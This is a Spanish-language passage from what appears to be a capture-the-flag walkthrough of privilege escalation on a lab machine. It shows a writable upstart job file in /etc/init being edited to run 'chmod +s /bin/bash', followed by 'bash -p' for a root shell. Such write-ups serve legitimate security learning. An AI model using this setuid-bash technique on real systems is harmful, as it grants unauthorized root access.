 Los scripts de jobs de initctl en general están en la carpeta `/etc/init`. Al hacer `ls -la` ahí, vemos que hay scripts de tests sobre los que tenemos privilegios de escritura. El resultado: podemos correr scripts con privilegios de superuser. Aprovecharemos de hacerlo para poder correr bash en modo privilegiado:


```shell
katie@spectra /etc/init $ cat test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
podemos modificar el script (que corre como sudo) para que ejecutemos un programa como la persona que lo creó, usando chmod +s: If someone else runs the file, they will run the file as the user/group who created it.
```

Dejamos en el archivo

```
script

chmod +s /bin/bash

end script
```

Y después hacemos /bin/bash -p y ganamos!
